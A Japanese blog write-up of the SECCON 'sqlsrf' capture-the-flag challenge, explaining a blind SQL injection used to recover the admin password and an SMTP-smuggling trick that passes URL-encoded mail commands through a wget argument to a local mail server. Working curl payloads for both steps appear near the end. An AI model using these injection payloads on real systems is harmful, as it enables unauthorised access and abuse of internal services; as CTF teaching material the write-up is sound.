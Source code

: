 <p>ログイン認証を突破すると<code>netstat</code>コマンドを叩くボタンと<code>wget</code>ボタンを叩くボタンがあるページにアクセスできる。</p>

<p>ただし<code>wget</code>ボタンは<code>admin</code>ユーザとしてログインしないといけない。</p>

<p>ログイン後の画面で何をもってして<code>admin</code>ユーザとして認証してるのか考えるとおそらく以下の行。</p>

<p><a href="https://gist.github.com/sota1235/83b8000acef4aa288dbcacd02842be38#file-index-perl-L29">https://gist.github.com/sota1235/83b8000acef4aa288dbcacd02842be38#file-index-perl-L29</a></p>

<p>ここに<code>admin</code>文字列をインジェクションできないか考えるが文字列変換もしてないしセッション自体作り直されてしまっているので手が出せず少し詰まった。</p>

<p>が、ログインページの<a class="keyword" href="http://d.hatena.ne.jp/keyword/SQL%A5%A4%A5%F3%A5%B8%A5%A7%A5%AF%A5%B7%A5%E7%A5%F3">SQLインジェクション</a>をうまく使えばadminのパスワードが抜けそうなことに気づく。</p>

<p>手法としてはBlind <a class="keyword" href="http://d.hatena.ne.jp/keyword/SQL">SQL</a> Injectionにあたるもので、ログインが成功か失敗かをtrue or falseとして、データを推定する。</p>

<p>うまく説明できる気がしないのでコードを貼っつける。</p>

<p><script src="https://gist.github.com/sota1235/070483d499875ba927fa4de978b097de.js"> </script><cite class="hatena-citation"><a href="https://gist.github.com/sota1235/070483d499875ba927fa4de978b097de">gist.github.com</a></cite></p>

<p>パスワード文字列として使われてそうなものをあらかじめあげて、<code>admin</code>ユーザの<code>password</code>カラムを1文字ずつ比較する<a class="keyword" href="http://d.hatena.ne.jp/keyword/SQL">SQL</a>を投げる。</p>

<p>これでログインが成功すればその文字列がpasswordのN文字目である、ということがわかる。</p>

<p>パスワードの文字数は以下のコマンドで32文字であることを断定して、32回ループを回した。</p>

<pre class="code" data-lang="" data-unlink>curl -X POST -d &#34;user=&#39; UNION SELECT &#39;760de578d5d608fb420085b7697479ee&#39;/ WHERE length(&#39;hoge&#39;)=32--&amp;pass=password&amp;login=Login&#34; -D - http://sqlsrf.pwn.seccon.jp/sqlsrf/index.cgi</pre>


<p>ということで<code>admin</code>のパスワードが<code>Yes!Kusomon!!</code>であることをつきとめ、<code>admin</code>としてログイン。</p>

<p>この問題で求められていたことはrootアカウントに指定されたタイトルでメールを送るとFlagが送られてくることだったが、<code>netstat</code>ボタンで見るとサーバで立ち上がってるメールサーバは<code>localhost:25</code>の<a class="keyword" href="http://d.hatena.ne.jp/keyword/SMTP">SMTP</a>サーバのみ。</p>

<p><a class="keyword" href="http://d.hatena.ne.jp/keyword/wget">wget</a>コマンドで<code>localhost:25</code>を取ると<a class="keyword" href="http://d.hatena.ne.jp/keyword/SMTP">SMTP</a>サーバのエラーが返ってくる。</p>

<p>ここで私は詰んでたのだがチームメンバーに突破してもらった。ありがとうございます<a href="https://twitter.com/shmorimo">shmorimo</a>さんmm</p>

<p>発想としては空白をURL<a class="keyword" href="http://d.hatena.ne.jp/keyword/%A5%A8%A5%F3%A5%B3%A1%BC%A5%C9">エンコード</a>し、<a class="keyword" href="http://d.hatena.ne.jp/keyword/SMTP">SMTP</a>のメッセージをくっつけて<a class="keyword" href="http://d.hatena.ne.jp/keyword/wget">wget</a>することで<a class="keyword" href="http://d.hatena.ne.jp/keyword/SMTP">SMTP</a>を喋ることができる。</p>

<p>前段のHTTPメッセージは<a class="keyword" href="http://d.hatena.ne.jp/keyword/SMTP">SMTP</a>サーバは無視する。</p>

<pre class="code" data-lang="" data-unlink>curl -X POST -H &#39;Cookie:CGISESSID=6d92e08a398de805982dabd7fc248a5f; remember=58474452dda5c2bdc1f6869ace2ae9e3&#39; http://sqlsrf.pwn.seccon.jp/sqlsrf/menu.cgi&#39;?&#39; --form &#34;cmd=wget --debug -O /dev/stdout &#39;http://&#34; --form &#34;args=127.0.0.1%0aHELO%20ymkz01%2epwn%0aMAIL%20FROM%3a%20sample%40gmail%2ecom%0aRCPT%20TO%3a%20root%0aDATA%0aFrom%3a%20shmorimo%40gmail%2ecom%0aTo%3a%20root%0aSubject%3a%20give%20me%20flag%0a%0a%2e%0aQUIT%0a:25&#34; 2&gt;&amp;1 | less</pre>
